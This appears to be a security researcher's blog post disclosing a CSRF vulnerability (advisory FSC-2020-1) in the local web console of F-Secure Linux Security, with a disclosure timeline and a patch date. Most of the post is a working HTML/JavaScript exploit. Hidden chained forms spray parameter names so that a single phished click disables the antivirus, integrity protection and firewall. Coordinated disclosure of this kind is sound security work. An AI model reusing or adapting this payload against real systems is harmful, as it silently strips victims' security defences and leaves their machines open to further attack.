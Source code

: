```yaml
---
layout: post
title:  "FSC-2020-1"
date:   2020-08-06 17:13:37 +0100
categories: bug
---
```


<style>
code {
  white-space : pre-wrap !important;
}
</style>


# Single-click double CSRF to disable Linux Security (from F-Secure)


### Timeline
* 21 April 2020 - Bug reported to F-Secure <br/>
* 14 May 2020 - F-Secure releases a *hotfix* to address the bug <br/>
* 19 May 2020 - F-Secure releases a Security Advisory for the bug ([FSC-2020-1](https://www.withsecure.com/en/support/security-advisories/fsc-2020-1))

### The bug

The security solution "Linux Security" is manageable, after installation, browsing a local instance of Tomcat available at `http://localhost:28080`

Unfortunately, the web application was missing proper anti-CSRF tokens to prevent CSRF attacks from arbitrary websites. Although the solution was somehow trying to avoid CSRF attacks by changing the name of some of the variables/parameters (in the form of incremental numbers) after every interaction with the web interface, that wasn't enough.

I was able to create the following PoC which sprays the variables' name space and chains 2 CSRF to: **Disable the anti-virus, system integrity protection and the firewall** with a single "phished" click:

Video PoC:

<iframe width="560" height="315" src="https://www.youtube.com/embed/ODuJCgx3SyM" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


Exploit PoC:
```html
<html>
<head>
<script>
function chainForm(){
  setTimeout(new function(){document.getElementById('submit1').click() }, 2000)
}
function loadDoc() {
  var xhttp = new XMLHttpRequest();
  xhttp.withCredentials = true;
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.body.innerHTML += this.responseText;
    }
  };
  xhttp.open("GET","http://localhost:28080/fsecure/webui", true);
  xhttp.send();
}
</script>
</head>
<body onload="loadDoc(); ">
  <script>history.pushState('', '', '/')</script>
    <iframe style="display:none" name="myframe"></iframe>
    <iframe style="display:none" name="myframe2"></iframe>
    <form id="form1" style="display:none" target="myframe" action="http://localhost:28080/fsecure/webui" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="v29" value="&#45;1" />
      <input type="hidden" name="v28" value="&#45;1" />
      <input type="hidden" name="v31" value="0" />
      <input type="hidden" name="v30" value="0" />
      <input type="hidden" name="wa&#95;clientprobe" value="1" />
      <input type="hidden" name="wa&#95;jsversion" value="JavaScript&#32;1&#46;5" />
      <input type="hidden" name="wa&#95;screenwidth" value="1920" />
      <input type="hidden" name="wa&#95;screenheight" value="1440" />
      <input type="hidden" name="wa&#95;javaenabled" value="false" />
      <input type="hidden" name="v27" value="1" />
      <input type="hidden" name="declare&#58;v7" value="" />
      <input type="hidden" name="v7" value="2" />
      <input type="hidden" name="declare&#58;v10" value="" />
      <input type="hidden" name="v10" value="8" />
      <input type="hidden" name="declare&#58;v13" value="" />
      <input type="hidden" name="v13" value="2" />
      <input type="hidden" name="v15" value="null" />
      <input type="hidden" name="v16" value="true" />
      <input type="hidden" name="v22" value="null" />
      <input type="hidden" name="v23" value="true" />
      <input type="hidden" name="declare&#58;v5" value="" />
      <input type="hidden" name="v1" value="false" />
      <input type="hidden" name="v2" value="false" />
      <input type="hidden" name="v3" value="false" />
      <input type="hidden" name="v4" value="false" />
      <input type="hidden" name="v24" value="" />
      <!--<input type="hidden" name="d101806e199&#95;ACTIVE&#95;ITEM" value="" />-->
      <input type="hidden" name="v32" value="" />
      <input id="submit1" type="submit" value="Submit request"  onclick="document.getElementById('form1').style.display = 'none';"/>

      <!-- Spray the variables' name space with 2 (Disable for AV and Integrity) -->
      <input type="hidden" name=v29 value="2" />
<input type="hidden" name=v32 value="2" />
<input type="hidden" name=v35 value="2" />
<input type="hidden" name=v30 value="2" />
<input type="hidden" name=v33 value="2" />
<input type="hidden" name=v36 value="2" />
<input type="hidden" name=v31 value="2" />
[...] Here the form just continues until "v1000" is set to "2"

    </form>

    <form id="form2" target="myframe2" action="http://localhost:28080/fsecure/webui" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="v29" value="&#45;1" />
      <input type="hidden" name="v28" value="&#45;1" />
      <input type="hidden" name="v31" value="0" />
      <input type="hidden" name="v30" value="0" />
      <input type="hidden" name="wa&#95;clientprobe" value="1" />
      <input type="hidden" name="wa&#95;jsversion" value="JavaScript&#32;1&#46;5" />
      <input type="hidden" name="wa&#95;screenwidth" value="1920" />
      <input type="hidden" name="wa&#95;screenheight" value="1440" />
      <input type="hidden" name="wa&#95;javaenabled" value="false" />
      <input type="hidden" name="v27" value="1" />
      <input type="hidden" name="declare&#58;v7" value="" />
      <input type="hidden" name="v7" value="2" />
      <input type="hidden" name="declare&#58;v10" value="" />
      <input type="hidden" name="v10" value="8" />
      <input type="hidden" name="declare&#58;v13" value="" />
      <input type="hidden" name="v13" value="2" />
      <input type="hidden" name="v15" value="null" />
      <input type="hidden" name="v16" value="true" />
      <input type="hidden" name="v22" value="null" />
      <input type="hidden" name="v23" value="true" />
      <input type="hidden" name="declare&#58;v5" value="" />
      <input type="hidden" name="v1" value="false" />
      <input type="hidden" name="v2" value="false" />
      <input type="hidden" name="v3" value="false" />
      <input type="hidden" name="v4" value="false" />
      <input type="hidden" name="v24" value="" />
      <!--<input type="hidden" name="d101806e199&#95;ACTIVE&#95;ITEM" value="" />-->
      <input type="hidden" name="v32" value="" />
      <input id="submit2" type="submit" value="Submit Request"  onclick="document.getElementById('form2').style.display = 'none';chainForm();"/>

      <!-- Spray the variables' name space with 8 (Disable Firewall) -->
      <input type="hidden" name=v29 value="8" />
<input type="hidden" name=v32 value="8" />
<input type="hidden" name=v35 value="8" />
<input type="hidden" name=v30 value="8" />
<input type="hidden" name=v33 value="8" />
<input type="hidden" name=v36 value="8" />
<input type="hidden" name=v31 value="8" />
[...] Here, as above, the form just continues until "v1000" is set to "8"

</form>
</body>
</html>

```
